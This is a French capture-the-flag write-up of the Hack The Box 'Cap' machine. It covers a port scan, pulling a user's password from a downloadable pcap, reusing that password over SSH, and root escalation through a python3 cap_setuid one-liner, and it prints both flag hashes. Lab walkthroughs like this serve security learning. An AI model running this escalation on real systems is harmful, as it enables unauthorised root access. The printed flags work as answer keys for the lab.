 ```yaml
---
title: "[HTB - Easy] Cap"
description: "Writeup by jsthope"
date: 2023-03-28T00:00:00+00:00
tags: ["HTB", "Easy", "writeup", "FR"]
type: post
image: images/cap/cap.png
showTableOfContents: true
---
```

![HTB Cap Image](images/cap/cap.png "HTB Cap Image")
# nmap
On va tout d’abord scanner les ports ouverts de l’ip
```┌─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ nmap 10.10.10.245
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 22:35 BST
Nmap scan report for 10.10.10.245
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```
# http
Sur le site, on remarque qu'on est connecté de base à l'utilisateur "Nathan".
On trouve ensuite que le site permet de télécharger des trames réseaux:
http://10.10.10.245/data/0
On download le pcap numero 0 et on l'analyse ensuite avec Wireshark
![pcap](images/cap/pcap.png "pcap")

On trouve alors le mot de passe de Nathan (utilisé pour le ftp)

# ssh
Le mot de passe ftp de Nathan et le même que sur son ssh:
```
─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ ssh nathan@10.10.10.245
```
On récupère alors le flag de l'user:
```
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
ebd6713a9539c2c987b214d1a48bc21c
```
# privesc
On cherche si on a des vulnérabilités liées aux capabilities:
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
On voit tout de suite ici que python3.8 est sûrement vulnérable à un exploit de type setuid. 
On peut trouver les exploits de capabilities sur:
https://gtfobins.github.io/gtfobins/python/#capabilities
```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
On est bien root !
Il ne reste plus qu'a récupérer le dernier flag:
```
# cat /root/root.txt
0987dc49d725b0d0f38fe7f6349b266c
```